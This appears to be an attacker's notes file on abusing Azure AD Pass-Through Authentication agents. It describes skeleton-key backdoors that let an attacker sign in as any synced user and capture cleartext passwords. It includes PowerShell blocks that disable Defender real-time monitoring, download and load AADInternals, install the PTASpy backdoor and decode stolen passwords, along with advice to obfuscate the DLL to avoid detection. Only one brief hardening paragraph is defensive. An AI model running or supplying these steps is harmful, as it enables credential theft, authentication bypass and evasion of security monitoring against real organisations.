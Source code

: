         More thorough examples exist down below.

PTA:
    - No passhash sync takes place but identity sync still takes place
    - Useful for enforcing on-prem password policies as Authetnication is validated On-Prem.
    - Comms to cloud via Agent not the DC
    - Only outbound 80,443 from auth agent to AzureAD
    - User tries to access, is redirected to AzureAD sign in, enters credentials, encrypted creds go into a Queue in AzureAD, the PTA agent reads from the queue, requests validation from on prem AD, Agent responds to Azured, AzureAD responds to user and the user gets access

    - Abuse Points:
      Step 6 - Agent Decrypts password using its private Key - If we compromise the agent we can get the cleartext password here.
      Step 9 - Agent returns validationg response to AzureAD
        On-Prem SkeletonKey - AzureAD trusts the agent wholesale, if we get in the middle and become the PTA Agent, we can look at the failed validation request and tell AzureAD "We're good, go ahead" regardless of whether the password is valid or not. We can become any synced user regardless of whether we have their password or not. Just need a valid UPN.
        
        AzureAD SkeletonKey - If we compromise a Global Admin, we can install our OWN PTA agent in our own infrastructure and authorize all login attempts (like a Rogue DC) 

    - Recommended Setup:
        Do not use Intune to manage them so their is no cloud access to these machines. Place them in TierZero where they are protected from access by anything but other servers and OOB management network.
        Restrict Access to these servers to specific domain accounts

    - Lateral Movement On-Prem to Cloud (Local/Domain Admin):
        Once you have local admin rights on the server, disable monitoring and bring AADinternals over, etc
        Once the backdoor is installed, we can auth as any synced user without knowing their password
        It's possible to also observe the cleartext password as on-prem users are authenticating to the cloud.
        The Injection DLL is getting flagged now, may be worth obfuscating and keeping our own version of the DLL
        Passwords and Injection DLL are stored in a hidden C:\PTASpy directory

        ```powershell
        Set-MpPreference -DisableRealtimeMonitoring $true
        iwr $url -o aadint.zip; Expand-Archive .\aadint.zip
        Import-Module .\AADInternals.psd1
        Install-AADIntPTASpy
        Get-AADIntPTASpyLog -DecodePasswords
        ```

    - Lateral Movement On-Prem to Cloud (Global Admin):
        We can register our own PTA Agent after getting GA privileges by setting it up on a machine we control. Once it's setup, we backdoor our own PTA Agent and decode the passwords

        ```powershell
        Set-MpPreference -DisableRealtimeMonitoring $true
        iwr $url -o aadint.zip; Expand-Archive .\aadint.zip
        Import-Module .\AADInternals.psd1
        Install-AADIntPTASpy
        Get-AADIntPTASpyLog -DecodePasswords
        ```           
